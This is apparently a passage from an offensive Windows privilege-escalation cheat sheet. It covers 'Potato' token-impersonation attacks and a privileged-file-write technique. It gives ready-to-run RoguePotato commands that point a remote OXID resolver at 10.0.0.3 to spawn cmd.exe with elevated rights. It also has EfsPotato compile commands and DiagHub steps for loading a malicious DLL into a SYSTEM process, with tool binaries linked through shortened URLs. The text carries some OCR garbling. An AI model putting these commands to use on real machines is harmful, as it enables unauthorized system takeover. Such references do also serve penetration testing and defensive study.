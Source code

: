 ```
# RoguePotato without running RogueOxidResolver locally. You should run the RogueOxidResolver.exe on your remote machine.
# Use this if you have fw restrictions.
RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe"
```

```
# RoguePotato all in one with RogueOxidResolver running locally on port 9999
RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe" -l 9999
```

```
#RoguePotato all in one with RogueOxidResolver running locally on port 9999 and specific clsid and custom pipename
RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe" -l 9999 -c "{6d8ff8e1-730d-11d4-bf42-00b0d0118b56}"
```

#### EFSPotato (MS-EFSR EfsRpcOpenFileRaw)

**Binary available at https://tinyurl.com/23dbbqvr**

```
# .NET 4.x
csc EfsPotato.cs
csc /platform:x86 EfsPotato.cs
```

```
# .NET 2.0/3.5
C:\Windows\Microsoft.Net\Framework\V3. 5 \csc.exe EfsPotato.cs
C:\Windows\Microsoft.Net\Framework\V3. 5 \csc.exe /platform:x86 EfsPotato.cs
```

#### JuicyPotatoNG

**antonioCoco/JuicyPotatoNG**

### EoP - Privileged File Write

#### DiagHub

**:warning: Starting with version 1903 and above, DiagHub can no longer be used to load arbitrary**

**DLLs.**

**The Microsoft Diagnostics Hub Standard Collector Service (DiagHub) is a service that collects**

**trace information and is programmatically exposed via DCOM. This DCOM object can be used to**

**load a DLL into a SYSTEM process, provided that this DLL exists in the C:\Windows\System32**

**directory.**

**Exploit**

**1. Create an evil DLL e.g: payload.dll and move it into C:\Windows\System32**

**2. Build https://tinyurl.com/2xlyyjuz**
